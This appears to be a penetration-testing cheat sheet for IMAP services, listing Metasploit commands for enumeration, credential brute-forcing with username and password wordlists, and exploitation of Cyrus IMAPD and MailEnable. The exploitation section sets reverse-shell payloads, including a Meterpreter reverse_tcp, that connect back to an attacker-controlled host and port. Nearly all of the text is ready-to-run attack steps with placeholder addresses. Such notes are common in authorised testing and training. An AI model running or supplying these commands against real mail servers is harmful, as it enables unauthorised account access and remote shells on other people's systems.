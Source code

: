 # Imap

## Enumeration

### Metasploit

##### imap_enum
```bash
use auxiliary/scanner/imap/imap_enum
set RHOSTS [IP]
set RPORT 143
run
```

##### imap_login
```bash
use auxiliary/scanner/imap/imap_login
set RHOSTS [IP]
set RPORT 143
set USER_FILE [username wordlist]
set PASS_FILE [password wordlist]
run
```

##### imap_capabilities
```bash
use auxiliary/scanner/imap/imap_capabilities
set RHOSTS [IP]
set RPORT 143
run
```


---
---


## Exploitation

### Metasploit

##### cyrus_imap_lsub
```bash
use exploit/unix/imap/cyrus_imap_lsub
set RHOSTS [IP]
set RPORT 143
set PAYLOAD cmd/unix/reverse
set LHOST [IP]
set LPORT [port]
run
```

##### mailenable_login
```bash
use exploit/windows/imap/mailenable_login
set RHOSTS [IP]
set RPORT 143
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```